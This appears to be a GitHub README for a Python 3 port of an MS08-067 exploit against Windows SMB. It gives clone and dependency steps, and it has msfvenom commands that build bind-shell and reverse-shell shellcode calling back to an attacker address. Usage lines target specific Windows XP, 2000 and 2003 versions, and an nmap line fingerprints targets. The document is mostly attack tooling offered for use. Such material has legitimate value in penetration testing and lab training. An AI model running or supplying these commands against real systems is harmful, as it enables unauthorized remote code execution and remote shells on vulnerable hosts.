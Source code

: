# MS08-067 Python exploit script updated for Python 3

This is an updated version of a MS08-067 Python exploit script to make it compatible with Python 3. 

It's based on the code of Andy Acer. 
Cloned and edited from this repository:  
https://github.com/andyacer/ms08_067

## Installation on Kali

`git clone https://github.com/Nerkho/MS08-067`

## Dependencies

You will need to install Impacket and Pycrypto

```
pip install impacket
pip install pycrypto
```


## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: 
```
python3 ms08_067_python3.py <target ip> <os #> <Port #>
```

* ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:  
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1Updated MS08-067 python exploit script for Python 3
